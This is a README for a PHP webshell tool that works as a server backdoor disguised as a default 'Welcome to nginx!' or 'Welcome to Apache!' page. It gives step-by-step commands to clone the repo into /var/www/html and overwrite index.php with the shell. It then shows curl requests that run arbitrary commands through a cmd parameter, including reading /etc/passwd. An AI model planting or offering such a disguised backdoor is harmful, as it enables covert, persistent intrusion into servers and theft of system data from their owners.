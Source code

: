 # Webshell 
By Stacey Zheng

A custom webshell tool acting as a service backdoor but disguised as a "Welcome to nginx!" or "Welcome to Apache!" page.

## Prerequisites
- Git
- Curl 
- SSH session establshed with the target machine

## Instructions of Use
1) Change directory to /var/www/html
```
cd /var/www/html
```

2) Clone repo from Git 
```
sudo git clone https://github.com/Szheng25/webshell.git
```

3) Copy webshell_nginx.php or webshell_apache.php into index.php 
```
sudo cp webshell/webshell_nginx.php index.php
```
```
sudo cp webshell/webshell_apache.php index.php
```

4) Use curl to execute commands like `ls`, `ip a`, and `cat /etc/passwd` 
```
curl “http://100.65.2.74/index.php?cmd=ls”
curl “http://100.65.2.74/index.php?cmd=ip+a”
curl “http://100.65.2.74/index.php?cmd=cat+/etc/passwd”
```